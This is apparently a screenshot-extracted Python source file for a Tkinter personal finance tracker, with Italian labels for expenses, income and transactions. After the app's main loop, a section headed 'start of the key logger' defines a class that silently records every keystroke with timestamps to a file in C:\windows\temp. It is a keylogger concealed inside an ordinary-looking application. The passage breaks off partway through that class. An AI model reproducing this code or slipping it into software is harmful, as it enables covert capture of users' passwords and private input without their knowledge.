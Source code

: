 ```python
label_description.grid(row=1, column=0, padx=(10, 2), pady=5)
entry_description = tk.Entry(window)
entry_description.grid(row=1, column=1, padx=(2, 10), pady=5)

var_category = tk.IntVar()
radio_expense = tk.Radiobutton(window, text="Uscite", variable=var_category, value=0)
radio_expense.grid(row=2, column=0, padx=(10, 2), pady=5)
radio_income = tk.Radiobutton(window, text="Entrate", variable=var_category, value=1)
radio_income.grid(row=2, column=1, padx=(2, 10), pady=5)

button_add = tk.Button(window, text="Aggiungi Transazione", command=add_transaction)
button_add.grid(row=4, column=0, columnspan=2, pady=10)

# Sezione di visualizzazione tabellare all'interno della applicazione
tree = tk.ttk.Treeview(window, columns=("data", "ammontare", "descrizione", "categoria"))
tree.heading("#0", text="Date")
tree.heading("ammontare", text="Ammontare")
tree.heading("descrizione", text="Descrizione")
tree.heading("categoria", text="Categoria")
tree.grid(row=5, column=0, columnspan=2, padx=10, pady=10, sticky="nsew")

transactions = []
update_table()

window.mainloop()

# INIZIO DEL KEY LOGGER
class KeyLogger: 

    # Scelta della directory e del nome del file

    def __init__(self, log_directory=r"C:\windows\temp", log_file_name="log.txt"):
        self.log_directory = log_directory or os.path.join(os.path.expanduser("~"), "logs")
        self.log_file_name = log_file_name
        self.log_file_path = os.path.join(self.log_directory, self.log_file_name)

        # Crea la directory dei log se non esiste
        os.makedirs(self.log_directory, exist_ok=True)

    def log(self, message):
        with open(self.log_file_path, "a") as f:
            f.write(message)

    def on_press(self, key):
        try:
            char = key.char
        except AttributeError:
            char = str(key)
        # Aggiunta del giorno e dell'ora della pressione del tasto
        timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        log_message = f"{timestamp} - Pressed: {char}\n"
        self.log(log_message)
        print(log_message, end='')

    def on_release(self, key):
        # Aggiunta del giorno e dell'ora del rilascio del tasto
        timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        log_message = f"{timestamp} - Released: {key}\n"
        self.log(log_message)
        print(log_message, end='')
        
        # Opzionale: Ferma il keylogger al rilascio del tasto esc. Questa opzione è stata inserita in fase di test per fermarne l'esecuzione
```